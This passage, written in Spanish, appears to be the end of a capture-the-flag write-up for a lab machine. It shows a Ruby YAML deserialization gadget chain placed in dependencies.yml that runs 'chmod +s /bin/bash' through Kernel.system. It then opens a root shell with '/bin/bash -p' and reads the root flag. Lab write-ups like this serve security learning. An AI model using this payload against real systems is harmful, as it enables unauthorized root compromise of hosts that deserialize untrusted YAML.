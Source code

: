 ```bash
         3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
         2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```

Funciona, a continuación cambiamos el archivo dependencies.yml y añadimos "chmod +s /bin/bash" en "git_set:" para que el permiso sea SUID:

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

Ejecutamos otra vez el binario y /bin/bash -p para tener una shell como root. Localizamos así la flag de root en el archivo en /root root.txt

```bash
henry@precious:~$ /bin/bash -p
bash-5.1# ls
dependencies.yml  user.txt
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt 
8abcbf32ac6a18546???????????????
```

Muchas gracias por leer este writeup, espero que te haya gustado!

